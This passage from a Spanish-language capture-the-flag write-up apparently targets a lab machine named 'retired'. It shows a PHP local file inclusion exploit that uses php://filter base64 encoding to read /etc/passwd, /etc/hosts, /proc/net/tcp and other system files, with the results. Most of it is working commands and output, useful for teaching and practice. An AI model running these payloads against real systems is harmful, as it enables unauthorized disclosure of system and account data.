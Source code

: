 ----------------------------
# Part 2: LFI

```console
http://10.10.11.154/index.php?page=default.html -> default.html
http://10.10.11.154/index.php?page=default.html/../../../../../etc/passwd -> nada
http://10.10.11.154/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd
```
Una vez tenemos como explotar el LFI podemos obtener mucha información del host:
```
# Nombre del dominio:
└─$ curl -s http://10.10.11.154/index.php?page=php://filter/convert.base64-encode/resource=/etc/hostname |  base64 -d
retired

# Usarios
└─$ curl -s http://10.10.11.154/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd |  base64 -d | grep "sh" | awk '{print $1}' FS=":" | tr "\n" "," | sed "s/,/, /g"
root, sshd, vagrant, dev

# Puertos
└─$ for port in $(curl -s http://10.10.11.154/index.php?page=php://filter/convert.base64-encode/resource=/proc/net/tcp | base64 -d | awk '{print $2}' | awk '{print $2}' FS=":"); do echo "$((16#$port))" | short -u | tr "\n" "," | sed "s/,/, /g" ; done
80, 22, 1337

# Direcciones IP
└─$ curl -s http://10.10.11.154/index.php?page=php://filter/convert.base64-encode/resource=/proc/net/fib_trie | base64 -d | grep "LOCAL" -B 1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | tr "\n" "," | sed "s/,/, /g"
10.10.11.154, 127.0.0.1,

# Dominios
└─$ curl -s http://10.10.11.154/index.php?page=php://filter/convert.base64-encode/resource=/etc/hosts | base64 -d | grep -P '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | awk '{print $2}' | grep -v "localhost" | tr "\n" "," | sed "s/,/, /g"
bullseye, retired,

# Procesos en ejecución (lo meto en un archivo porque es mucho (56 lineas))
└─$ curl -s http://10.10.11.154/index.php?page=php://filter/convert.base64-encode/resource=/proc/sched_debug | base64 -d | grep -P "\d" | grep -E "^ S|^ I" | grep -vE "scsi|system|kworker|card|irq|dbus|rcu" | awk '{print $2 " -> " $3}' > tee processes
```

----------------------------
# Part 3: Descubriendo un binario

La página beta.html dice tal que así: